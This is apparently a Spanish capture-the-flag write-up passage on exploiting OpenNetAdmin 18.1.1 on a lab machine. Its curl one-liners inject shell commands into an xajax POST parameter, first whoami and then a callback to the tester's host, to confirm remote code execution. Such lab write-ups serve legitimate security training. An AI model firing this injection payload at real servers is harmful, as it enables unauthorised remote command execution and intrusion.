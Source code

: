 ## Vulnerability Assessment {-}


### opennetadmin {-}

```bash
searchsploit opennetadmin
```

Aqui vemos un exploit en bash para para el opennetadmin 18.1.1 y en la web estamos frente a uno de esta misma version

```bash
searchsploit -x 47691
```

Vemos que es un simple oneliner que envia con curl una peticion por POST. Intentamos con un whoami

```bash
curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";whoami;echo \"END\"&xajaxargs[]=ping" "http://10.10.10.171/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1 | html2text
```

Vemos que esto funcciona sin problemas. Intentamos ver si tenemos conectividad con la maquina.

1. Lanzamos un servidor web con python

    ```bash
    python -m http.server 80
    ```

1. Lanzamos una peticion curl a nuestra maquina

    ```bash
    curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";curl 10.10.14.8;echo \"END\"&xajaxargs[]=ping" "http://10.10.10.171/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
    ```

Como hemos recibido la peticion get, intentamos ganar accesso al systema.